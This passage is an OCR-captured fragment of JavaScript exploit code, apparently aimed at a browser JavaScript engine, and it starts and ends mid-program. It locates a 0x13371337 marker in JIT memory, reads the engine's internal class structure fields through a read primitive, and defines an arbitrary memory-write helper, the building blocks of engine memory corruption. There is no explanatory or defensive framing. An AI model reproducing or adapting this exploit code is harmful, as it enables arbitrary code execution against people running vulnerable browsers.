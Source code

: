 ```javascript
  asdf = read_n(jitaddr,new data("0xff0"))
  offset=-1;
  for (var i =0;i<0xff0;i++)
  {
    if (asdf[i]==0x37 && asdf[i+1]==0x13 && asdf[i+2]==0x37 && asdf[i+3]==0x13 && asdf[i+4]==0x37 && asdf[i+5]==0x13 && asdf[i+6]==0x37 && asdf[i+7]==0x13){
      offset=i;
      break
    }
  }

 
  if(offset!=-1)
    break

  jitaddr.reverse()
  add(jitaddr,new data("0xff0"))
  jitaddr.reverse()
}

offset = offset+8+6 
jitaddr.reverse()
add(jitaddr,new data(offset.toString(16)))
jitaddr.reverse()
console.log(offset);


jsClass = read_n(grp_ptr,new data("0x30"));

name = jsClass.slice(0,8)
flags = jsClass.slice(8,16)
cOps = jsClass.slice(16,24)
spec = jsClass.slice(24,32)
ext = jsClass.slice(40,48)
oOps = jsClass.slice(56,64)

group.reverse()
add(group,new data("0x60"))
group.reverse()

eight = new data("0x8")

function addEight()
{
  group.reverse()
  add(group,eight)
  group.reverse()
}


function write1(addr,value){
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    
    for (var i=0;i<8;i++)
      leaker[i]=value[i]
}


backingbuffer = group.slice(0,8)

oops = group.slice(0,8)
oops.reverse()
```